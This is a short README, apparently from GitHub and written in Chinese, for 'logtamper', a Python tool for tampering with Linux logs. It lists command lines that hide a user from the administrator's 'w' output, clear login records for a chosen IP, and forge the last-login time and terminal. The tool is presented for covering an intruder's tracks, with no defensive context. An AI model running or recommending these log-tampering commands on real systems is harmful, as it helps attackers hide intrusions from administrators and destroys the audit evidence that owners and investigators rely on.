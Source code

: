 # logtamper
python修改linux日志

# 使用

躲避管理员w查看

python logtamper.py -m 1 -u re4lity -i 192.168.0.188

清除指定ip的登录日志

python logtamper.py -m 2 -u re4lity -i 192.168.0.188

修改上次登录时间地点

python logtamper.py -m 3 -u re4lity -i 192.168.0.188 -t tty1 -d 2014:05:28:10:11:12
